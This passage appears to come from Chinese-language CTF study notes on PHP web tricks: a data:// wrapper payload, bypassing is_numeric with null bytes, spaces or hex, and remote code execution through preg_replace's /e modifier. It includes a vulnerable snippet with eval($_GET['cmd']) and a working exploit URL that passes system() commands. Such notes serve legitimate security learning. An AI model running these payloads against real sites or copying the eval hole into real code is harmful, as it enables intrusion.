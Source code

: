 data命令

text=data://text:text/plain,+内容

## 2.is_numeric函数

**作用：**判断是否是数字

### 思路1：

数值%00

数值%20   //%20是空格

%00数值

### 思路2：

转换为16进制字符串

## 3.执行指定的代码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
    @eval($_GET['cmd']);
}

```

只需要执行getflag（）函数，并且传入cmd参数

(url).../next.php?id=1&\S*={${getFlag()}}&cmd=system('linux命令');

正则表达式\S*表示匹配非空字符串

匹配到的是getFlag这个函数

然后传入cmd参数
